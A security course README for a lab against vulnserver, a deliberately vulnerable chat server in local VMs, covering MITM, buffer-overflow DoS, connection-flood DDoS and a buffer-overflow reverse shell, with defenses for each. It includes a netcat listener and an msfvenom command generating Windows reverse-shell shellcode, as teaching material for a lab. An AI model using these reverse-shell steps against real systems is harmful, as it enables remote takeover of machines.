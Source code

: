 # Attacks against vulnserver

- [MITM](#mitm)
- [DoS](#dos)
- [DDoS](#ddos)
- [Armitage against vchat](../../MetasploitNewModule)
- [Reverse shell utilizing buffer overflow](#reverse-shell)
- [More buffer overflow attacks](../../Buffer-Overflow/BOF-Remote/)
- [More attacks against vnserver](https://github.com/llan-OuO/VulserverAttacks)

## Test setting
- Local host (kali VM): 10.0.2.8
- Victim host (Windows 10 VM: 10.0.2.7

## MITM
### Attack
This attack shows how a message may be changed by the chat server, which works as the man in the middle (MITM) between two chat clients, if there is no protection (interity). To enabe the attack, the chat server owner (bad guy) can do the following

1. Use telnet to connect to the chat server
```
telnet 10.0.2.7 9999
```

2. Enable MITM within telnet 
```
MITM 1
```
Now all messages will be appended with " hahaha...".

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/1dctJFBwZcI/0.jpg)](https://youtu.be/1dctJFBwZcI)

### Defense
* [Hash](https://www.cyberciti.biz/faq/linux-md5-hash-string-based-on-any-input-string/) - What is the problem if only hash is used?

```
echo -n 'Your-String-Here' | md5sum
```

* [HMAC with hash (SHA or MD5)](https://dinochiesa.github.io/hmachash/index.html)
* [Digital signature](https://opensource.com/article/19/6/cryptography-basics-openssl-part-2) - Note: 2048 in the following command is used in the wrong way.
```
openssl genpkey -out privkey.pem -algorithm rsa 2048
```
Correct command is
```
openssl genpkey -out privkey.pem -algorithm rsa -pkeyopt rsa_keygen_bits:2048
```
Or 2048 can be skipped since the default key size is 2048.

Example signature generation and verification process
```
openssl genpkey -out privkey.pem -algorithm rsa
openssl rsa -in privkey.pem -outform PEM -pubout -out pubkey.pem
openssl dgst -sha256 -sign privkey.pem -out sign.sha256 changelog
openssl enc -base64 -in sign.sha256 -out sign.sha256.base64
openssl enc -base64 -d -in sign.sha256.base64 -out sign.sha256
openssl dgst -sha256 -verify pubkey.pem -signature sign.sha256 changelog
```

## DoS
DoS.py
### Attack
This attack exploits the buffer overflow issue of vulnserver and sends a long message, which causes buffer overflow and crash of vulnserver.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/_F88Txt7Qk0/0.jpg)](https://youtu.be/_F88Txt7Qk0)

### Defense
The attack above utilizes the buffer overflow vulnerability of vulnserver. Secure coding is needed for defense. Dangerous functions such as strcpy(.) cannot be used.

## DDoS
DDoS.py
### Attack
Since vulnserver allows only a limited number of connections, this attack creates a lot of connections to vulnserver so that no more new connections can be created and no new user can use vulnserver for chatting.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/lOR4hpPfPws/0.jpg)](https://youtu.be/lOR4hpPfPws)

### Defense
DDoS is often is hard to defeat. In this particular case, an attacker creates a lot of connections to the chat server. For defense, we may need to monitor the number of connections from an inidvidual user.

## reverse-shell
reverse-shell.py
### Attack
This attacks ubtilizes the buffer overflow vulnerability of vulnserver and sends a reverse tcp shell payload, which connects back to the attack and spawns a shell at the attacker.
To receive the reverse shell, run the following command at a terminal of Kali VM
```
nc -l -v -p 4444
``` 

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/LRNZxCC84RI/0.jpg)](https://youtu.be/LRNZxCC84RI)

### Notes
1. If the test setting above is used, the python attacking code works directly with no need of change.
2. If the address of *jmp esp* comes from essfunc.dll as used in the example Python code, essfunc.dll does not use ASLR and there is no need of changing the address of *jmp esp* when Windows 10 reboots.
3. If the ip of the local host (attacker's computer) is 10.0.2.8, no need of generating the shellcode using the following command
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0d' 
```

```
kali@kali:~$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

<!-- ![msfvenom](../../imgs/msfvenom.PNG) -->

### Defense
First secure coding is needed to avoid buffer overflow vulnerabilities.

* Windows has a lot of secure features, including those defeating memory based attacks. Sloppy coding is always there and people have cooked up defense mechnisms in case it happens. 

To enable all features of Exploit Protection of Windows, find :mag_right: at the bottom-left corner of Windows screen and search "Exploit Protection".

<img src="Malware-Analysis/tree/main/imgs/WindowsExploitProtection.png" width="25%">

* Virus & threat protection shall be enabled too. At the bottom-left corner of Windows screen and search "Virus". In this picture below, all those features are turned off.
<img src="https://github.com/xinwenfu/Malware-Analysis/tree/main/imgs/VirusProtection.png" width="75%">
